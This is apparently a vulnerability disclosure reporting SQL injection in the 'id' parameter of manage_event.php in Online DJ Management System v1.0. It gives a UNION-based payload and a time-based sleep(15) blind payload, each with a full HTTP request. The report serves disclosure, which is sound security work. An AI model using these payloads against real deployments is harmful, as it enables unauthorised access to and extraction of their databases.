 # Online DJ Management System v1.0 has SQL injection

BUG_Author:LiZhang

Website source code address: https://www.sourcecodester.com/php/15150/online-dj-management-system-phpoop-free-source-code.html

Vulnerability File: /odjms/admin/events/manage_event.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,concat(0x414243,0x7576777879),null,null,null,null-- -

```
GET /odjms/admin/events/manage_event.php?id=-1%27%20union%20all%20select%20null,null,concat(0x414243,0x7576777879),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

union query success

![image](https://github.com/aieouZZ/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(15)))l) and 'v'='v

```
GET /odjms/admin/events/manage_event.php?id=1%27%20and%20(select%201%20from%20(select(sleep(15)))l)%20and%20%27v%27=%27v HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fadnbe58h1fq1i9pdtcrr5juc1
Connection: close
```

The server's response time is 15 seconds

![image](https://github.com/aieouZZ/bug_report/blob/main/sql2.png)

